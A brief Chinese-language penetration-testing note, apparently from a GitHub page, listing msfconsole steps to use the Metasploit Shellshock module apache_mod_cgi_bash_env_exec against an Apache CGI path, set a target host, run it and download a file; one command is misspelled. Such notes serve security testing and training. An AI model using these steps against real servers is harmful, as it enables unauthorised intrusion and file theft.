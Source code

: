 ## Apache
### 1. 进入msfconsole, 查找apache_mod_cgi_bash_env_exec模块
~~~bash
msfconsole
# 使用上述模块
use modeId
# 配置cgi脚本路径
set targeturi /cgi-bin/bin
# 设置ip
set rhost IP
run

# 下载文件
downloadd fileName
~~~